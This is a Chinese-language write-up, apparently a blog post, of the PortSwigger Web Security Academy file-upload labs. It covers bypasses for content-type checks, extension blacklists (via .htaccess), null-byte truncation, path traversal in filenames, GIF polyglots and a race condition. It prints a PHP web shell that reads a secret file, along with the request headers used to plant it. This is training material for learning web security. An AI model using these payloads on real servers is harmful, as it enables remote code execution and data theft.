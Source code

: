 ```yaml
---
title: upload files
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-05T22:30:43+08:00
categories: 
- 渗透测试
- brup labs
---
```


## Remote code execution via web shell upload

可以直接上传php文件，上传位置位于头像

```
GET /files/avatars/exp.php HTTP/2
```

注意文件路径即可

## Content-Type restriction bypass

简单的上传绕过，只验证了content-type头，修改为jpeg即可绕过

## upload via path traversal

上传一个exp.php文件，

```
<?php echo file_get_contents('/home/carlos/secret');?>
```

似乎并没有组织我们上传php文件，但当我们访问该文件时，php文件直接以文本形式呈现，没有得到执行结果，这时候就要用到目录遍历

**what is directory traversal**

https://portswigger.net/web-security/file-path-traversal

利用该漏洞，我们可以将文件上传至上级目录，使服务器执行该文件

```
Content-Disposition: form-data; name="avatar"; filename="..%2fexp.php"
```

再次访问该文件即可得到回显

## blacklist bypass

根据hint,需要上传两个文件来获取flag,很自然就可以想到配置文件，由于使用的是php服务，所以选择上传.htaccess文件

上传名为exp.jpg的图片马，包含上述php代码，再通过.htaccess文件添加扩展规则

```
AddType applicatuion/x-http-php .jpg
```

访问图片文件即可

## upload via obfuscated file extension

通过混淆文件扩展名达到上传的目的，由于服务器检索我们上传的文件后缀是否问.jpg或.png

我们可以采用00截断的形式上传.php文件

```
Content-Disposition: form-data; name="avatar"; filename="exp.php%00.jpg"
```

即可

## Remote code execution via polyglot web shell upload

通过添加gif头进行绕过，服务器增加了验证文件头的方法，添加文件识别符即可

```
GIF89a
<?php echo file_get_contents('/home/carlos/secret');?>
```

## race condition

后端代码有一段如下

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);
```

可以看出来上传的文件存放到了临时文件夹里面监测病毒，再进行删除操作，因此我们可以通过竞争来率先执行php代码，在读取和上传的界面进行爆破就能读到flag

